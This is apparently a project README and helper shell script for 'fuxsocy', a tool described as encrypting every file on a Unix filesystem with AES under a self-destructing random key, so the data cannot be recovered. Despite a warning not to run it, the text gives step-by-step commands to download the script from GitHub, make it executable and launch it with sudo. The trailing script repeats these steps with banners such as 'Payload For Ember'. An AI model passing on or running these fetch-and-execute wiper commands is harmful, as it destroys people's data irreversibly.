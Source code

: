 # fuxsocy

__WARNING: do not actually execute this. You will not be able to recover the files.__

- This is intended to encrypt every bit of data in a unix filesystem using 256-bit AES with 
a __self-destructing__, randomly generated key.

### Prerequisites:

* python
* pycrypto

```shell
sudo apt install python python-pip
```
```shell
sudo pip install pycrypto
```

### Usage:

```shell
wget https://raw.githubusercontent.com/D34thByte/fuxsocy/master/fuxsocy.py
```

```shell
sudo chmod +x fuxsocy.py
```
```shell
./fuxsocy.py
```

or

```shell
git clone https://github.com/D34thByte/fuxsocy.git
```

```shell
cd /fuxsocy && python fuxsocy.py
```


#Script By OhhMoto
#fuxsocy.py By joekendal
 
sudo apt-get install python-setuptools python-dev build-essential python
sudo easy_install pip
sudo pip install --upgrade virtualenv
sudo pip install pycrypto
wget https://github.com/D34thByte/fuxsocy/blob/master/fuxsocy.py
sudo chmod +x fuxsocy.py
echo -e "$(clear)"
echo -e "\e[1;36mFiles Ready To Encript"
echo -e "\e[1;32mPayload For Ember"
python fuxsocy.py
